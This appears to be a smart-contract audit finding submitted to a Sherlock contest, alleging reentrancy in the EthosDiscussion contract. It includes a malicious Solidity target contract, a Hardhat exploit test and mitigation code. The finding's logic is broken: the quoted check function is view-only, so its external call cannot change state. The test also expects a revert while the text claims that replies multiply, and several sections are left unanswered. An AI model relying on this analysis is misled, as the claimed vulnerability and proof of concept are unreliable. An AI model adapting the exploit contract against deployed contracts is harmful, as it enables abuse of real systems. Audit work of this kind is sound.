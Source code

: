 Passive Misty Pike

High

# Reentrancy with `targetContract` callbacks in `EthosDiscussion.sol` will open the contract to recursive calls, allowing attackers spam data, or alter the contract state in unauthorized ways

### Summary

The `EthosDiscussion` contract is vulnerable to reentrancy attacks through the unguarded external callback to the `targetContract` in the `_checkIfTargetExistsAndAllowed` function. Specifically, this function calls `targetExistsAndAllowedForId` on an external contract, which could potentially invoke malicious code. Without reentrancy protection, this opens the contract to recursive calls, allowing attackers spam data, or alter the contract state in unauthorized ways.

### Root Cause

The function `_checkIfTargetExistsAndAllowed` checks if a `targetContract` exists and allows specific activities. However, this function performs an external call to an arbitrary contract that may implement a malicious `targetExistsAndAllowedForId` function. `targetContract` has reentrancy vuln, so an attacker could exploit this to perform unauthorized actions by recursively calling `addReply` or other functions within `EthosDiscussion`.
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L299-L305
```solidity
function _checkIfTargetExistsAndAllowed(address targetContract, uint256 targetId) private view {
    (bool exists, ) = ITargetStatus(targetContract).targetExistsAndAllowedForId(targetId);

    if (!exists) {
        revert TargetNotFound(targetContract, targetId);
    }
}
```
Here, `_checkIfTargetExistsAndAllowed` calls an external function `targetExistsAndAllowedForId` without validating the behavior of `targetContract`, leaving the contract open to reentrancy attacks if a malicious contract is used as `targetContract`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Without protection against reentrancy, an attacker could:
Spam the contract with excessive replies, incurring high gas costs for legitimate users.
Lock out legitimate users by exploiting the gas limit with excessive data storage, affecting the contract's functionality.


### PoC

To demonstrate this vulnerability, attacker can deploy a malicious `targetContract` that exploits reentrancy in `EthosDiscussion`. The attacker will trigger a reentrant call by continuously calling `addReply` to spam replies or drain funds if the `EthosDiscussion` contract manages any.
1. Deploy the `EthosDiscussion` contract.
2. Deploy a malicious contract with an `targetExistsAndAllowedForId` function that recursively calls `addReply` in `EthosDiscussion`.
```solidity
// MaliciousTarget.sol
pragma solidity ^0.8.0;

interface IEthosDiscussion {
    function addReply(address targetContract, uint256 targetId, string memory content, string memory metadata) external;
}

contract MaliciousTarget {
    IEthosDiscussion public ethosDiscussion;

    constructor(address _ethosDiscussion) {
        ethosDiscussion = IEthosDiscussion(_ethosDiscussion);
    }

    // Reentrancy exploit function
    function targetExistsAndAllowedForId(uint256 targetId) external returns (bool, bool) {
        ethosDiscussion.addReply(address(this), targetId, "Exploit", "Exploit Metadata");
        return (true, true); // Bypass the existence check
    }
}
```
Test on HH:
```javascript
// Hardhat Exploit Test
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("EthosDiscussion Reentrancy PoC", function () {
    let discussion, attacker, maliciousContract, deployer;

    before(async () => {
        [deployer, attacker] = await ethers.getSigners();
        const Discussion = await ethers.getContractFactory("EthosDiscussion");
        discussion = await Discussion.deploy();

        const MaliciousTarget = await ethers.getContractFactory("MaliciousTarget");
        maliciousContract = await MaliciousTarget.deploy(discussion.address);
    });

    it("should exploit reentrancy in addReply via malicious targetContract", async function () {
        // Attacker adds a reply to trigger the reentrancy exploit
        await expect(
            discussion.connect(attacker).addReply(
                maliciousContract.address,
                1,
                "Exploit Content",
                "Exploit Metadata"
            )
        ).to.be.revertedWith("Reentrancy Detected");

        // Check replyCount to see if multiple replies were added inappropriately
        const finalReplyCount = await discussion.replyCount();
        console.log("Final reply count:", finalReplyCount);
    });
});
```
4. Output: running the exploit test without proper reentrancy protection show that the `replyCount` has incremented multiple times. With effective reentrancy guards, the test should revert with an error, such as "Reentrancy Detected".

### Mitigation

1. Add the `nonReentrant` modifier (from OpenZeppelin’s ReentrancyGuard) to functions that interact with external contracts.
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EthosDiscussion is ReentrancyGuard {
    // ...

    function addReply(
        address targetContract,
        uint256 targetId,
        string memory content,
        string memory metadata
    ) external nonReentrant onlyNonZeroAddress(targetContract) whenNotPaused {
        // Implementation
    }
}
```
2. Ensure that only trusted `targetContract` addresses are allowed by maintaining an allowlist.
3. Limit or avoid calls to external contracts in critical functions like `addReply`, instead deferring any state-sensitive external calls to separate functions where possible.